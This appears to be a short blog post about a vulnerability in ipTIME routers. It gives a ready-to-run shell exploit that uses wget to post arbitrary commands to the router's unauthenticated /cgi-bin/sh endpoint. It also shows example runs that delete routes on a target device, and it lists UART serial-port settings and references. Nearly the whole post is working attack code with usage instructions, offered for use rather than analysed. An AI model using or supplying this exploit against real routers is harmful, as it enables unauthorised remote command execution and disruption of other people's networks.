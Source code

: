 +++
title = "ipTIME vulnerability"
description = "ipTIME Routers vulnerability"
date = 2023-10-20T10:19:42+01:00

[taxonomies]
categories = ["CyberSecurity"]
tags = ["ipTIME"]

[extra]
toc = true
math = false
math_auto_render = false
+++

## Exploited code

```bash
#!/bin/sh 
if [ ! $1 ]; then echo "Usage:" 
  echo $0 
  ip command 
  exit 1 
fi 
wget -qO- --post-data="echo 'Content-type: text/plain 
'; PATH=$PATH:/sbin $2 $3 $4" http://$1/cgi-bin/sh
```

Save the file under a name `iptime_t5004`.

## How to run the exploited code

```bash
./iptime_t5004 172.16.0.1 "route del -net 10.10.10.0 netmask 255.255.255.0 gw 172.16.0.25"   
 ./iptime_t5004 172.16.0.1 "route del -net 10.0.0.0 netmask 255.255.255.0 gw 172.16.0.25"    
 ./iptime_t5004 172.16.0.1 route
```

## IP time 504 serial port settings

- baudrate: 38400
- UART pins from the LED to the bottom of the board:
   - VCC
   - TX
   - RX
   - GND

## References

- https://inchoryang.tistory.com/archive/20150729
- https://live2skull.tistory.com/5
- http://www.devttys0.com/2012/11/reverse-engineering-serial-ports/
- https://depier.re/iptime_uart_magic_and_not_so_useful_key/